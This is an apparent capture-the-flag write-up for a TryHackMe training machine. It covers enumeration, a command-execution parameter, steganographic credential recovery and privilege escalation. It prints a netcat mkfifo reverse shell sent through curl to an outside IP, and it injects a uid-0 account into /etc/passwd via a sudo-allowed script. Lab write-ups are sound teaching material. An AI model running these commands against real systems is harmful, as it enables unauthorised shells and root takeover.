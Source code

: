 ## THM CTF - U.A. High School

We can start changing local DNS to easily handle all the process.
```
sudo nano /etc/hosts
```
Add the record:
```
xxx.xxx.xxx.xxx	   school.thm
```
Now we can proceed with an ```Nmap``` scan.
```
sudo nmap -sS -T4 school.thm -p-
sudo nmap -sS -T4 school.thm -p22,80 -sV
```
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
```
Let's navigate to the http server while enumerating it with ```GoBuster```.
There is one possibile entry point in the ```contact us``` form.
Nothing interesting emerges from ```GoBuster``` and ```whatweb``` enumeration.
```
gobuster dir -u http://school.thm -w /usr/share/wordlists/dirb/common.txt -x php,txt,json,log,db,html
```
We can enumerate the form post request:
```
{
	"name": "test1",
	"email": "test1@test1.com",
	"subject": "test1",
	"message": "test1"
}
```
We tried to enumerate the only remaining folder in the website.
```
assets
```
```
gobuster dir -u http://school.thm/assets -w /usr/share/wordlists/dirb/common.txt -x php,txt,json,log,db,html
```
We are able to discover one more folder and a page.
```
/images
/index.php
```
We can try to ```FUZZ``` the ```index.php``` in the attempt to discover something useful.
```
ffuf -u 'http://school.thm/assets/index.php?FUZZ=id' -w /usr/share/seclists/Discovery/Web-Content/raft-large-words-lowercase.txt -fs 0
```
We are able to discover ```cmd``` as a possibile entry point.
Let's navigate to:
```
http://school.thm/assets/index.php?cmd=id
```
We obtain a string and ```CyberChef``` tells us that is ```base64``` encoded.
```
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
Let's speed up the process using ```curl``` and ```base64```
```
curl --silent http://school.thm/assets/index.php?cmd=whoami | base64 -d
```
```
curl --silent "http://school.thm/assets/index.php" -G --data-urlencode "cmd=ls /home/deku" | base64 -d
```
We've located the file we need but we cannot read its content.
We can try to obtain a ```reverse shell``` with the help of [PayloadAllTheThings](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#netcat-openbsd).
After some tries, we are able to find that the only reverse shell working is this one:
```
rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.14.99.183 9001 >/tmp/f
```
```
nc -nlvp 9001
```
```
curl --silent "http://school.thm/assets/index.php" -G --data-urlencode "cmd=rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.14.99.183 9001 >/tmp/f"
```
However we have no permission to access ```user.txt```.

Enumerating folders which we have access to, we find in 
```
/var/www/Hidden_Content/
```
a txt file contains a possibile password encoded in ```base64```.
```
AllmightForEver!!!
```
We continue to enumerate folders we have access to.

We find an image that cannot be opened in the browser.
```
wget 'http://school.thm/assets/images/oneforall.jpg'
```
We can try ```Steghide``` and the password just found
```
steghide --extract -sf oneforall.jpg 
```
but the file is not supported, however analysing it with ```head``` command, we are able to discover that is a ```PNG``` file, ```steghide``` do not support ```PNG``` file.

We can try to change its nature using ```hexeditor```.
```
hexeditor onforall.jpg
```
We try to change PNG magic bytes:
```
89 50 4E 47 0D 0A 1A 0A
```
to JPG:
```
FF D8 FF E0 00 10 4A 46 49 46 00 01
```
Now we are able to use steghide and extract the hidden file containg the credentials we need to access to the target machine via SSH.
```
creds.txt
```
Using
```
sudo -l
```
we obtain the information about which command ```deck``` can execute as root.
```
(ALL) /opt/NewComponent/feedback.sh
```
Let's investigate.
Reading the script, it blocks some characters while reading our input, but it seems not preventing some data manipulation.

We can create a new root user by adding it to the ```/etc/passwd``` file.

Let's create an encrypted password.
```
mkpasswd -m md5crypt -s
password
$1$sxPcFYo3$kAw1X2U0lC6hgtrb4n2EC0
```

Then execute the script and insert the feedback:
```
hacked:$1$sxPcFYo3$kAw1X2U0lC6hgtrb4n2EC0:0:0:hacked:/root:/bin/bash
```
So this new user has the same permissions as root.
```
sudo ./feedback.sh
'hacked:$1$sxPcFYo3$kAw1X2U0lC6hgtrb4n2EC0:0:0:hacked:/root:/bin/bash' >> /etc/passwd
```
```
su hacked
password
```
Navigating to the root folder we are able to find the second flag.
